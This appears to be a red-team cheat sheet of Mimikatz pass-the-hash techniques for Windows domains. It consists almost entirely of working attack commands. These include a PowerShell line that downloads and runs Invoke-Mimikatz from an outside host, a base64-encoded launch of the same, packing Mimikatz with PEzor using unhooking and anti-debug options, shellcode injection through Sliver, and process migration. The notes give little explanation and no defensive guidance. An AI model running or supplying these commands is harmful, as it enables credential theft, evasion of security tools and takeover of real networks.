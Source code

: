 # Mimikatz

## Mimikatz - Powershell port

### 1) Mimikatz for this - preferably use cyberchef for base64 encoding - Fails because of powershell issues

    sekurlsa::pth /user:Administrator /domain:domain.com /ntlm:ffffffffffffffffffffffffffffffff
    IEX((new-object net.webclient).downloadstring('http://10.10.10.11/powershell-scripts/Invoke-Mimikatz.ps1'))


### 2) Anything with spaces, requires `` for quotes escaping

    Invoke-Mimikatz -Command "privilege::debug token::elevate `"sekurlsa::pth /user:Administrator /domain:domain.com /ntlm:ffffffffffffffffffffffffffffffff`" exit"

### 3) Above base64 encoded command

    sharpsh -i -t 40 -- -u 'http://10.10.10.11/powershell-scripts/Invoke-Mimikatz.ps1' -e -c SW52b2tlLU1pbWlrYXR6IC1Db21tYW5kICJwcml2aWxlZ2U6OmRlYnVnIHRva2VuOjplbGV2YXRlIGAic2VrdXJsc2E6OnB0aCAvdXNlcjpBZG1pbmlzdHJhdG9yIC9kb21haW46ZG9tYWluLmNvbSAvbnRsbTpmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmAiIGV4aXQi


### 4) We can use PEzor to create mimikatz for PTH as well

    PEzor -unhook -antidebug -fluctuate=NA -format=dotnet -sleep=5 /home/kali/tools/bins/exes/mimikatz.exe -z 2 -p '"privilege::debug" "sekurlsa::pth /user:Administrator /domain:domain.com /ntlm:ffffffffffffffffffffffffffffffff" "exit"'
    execute-assembly -i /home/kali/tools/bins/exes/mimikatz.exe.packed.dotnet.exe

### 5) Execute shellcode within the mimi created process

    execute-shellcode -p 4428 /home/kali/OSEP/hav0c/sliver.x64.bin

## Mimikatz - PEZor

### 1) Sliver also has its own mimikatz implementation, we can use that - It works with DLL injection

    mimikatz '"privilege::debug" "sekurlsa::pth /user:username /domain:domain.com /ntlm:ffffffffffffffffffffffffffffffff" "exit"'

### 2) We can use mimikatz and then migrate or just find a process running as that user and inject into it

    PEzor -unhook -antidebug -fluctuate=NA -format=dotnet -sleep=5 /home/kali/tools/bins/exes/mimikatz.exe -z 2 -p '"privilege::debug" "sekurlsa::pth /user:username /domain:domain.com /ntlm:ffffffffffffffffffffffffffffffff" "exit"'
    execute-assembly /home/kali/tools/bins/exes/mimikatz.exe.packed.dotnet.exe

### 3) Migrate into the process

    migrate -p 4712
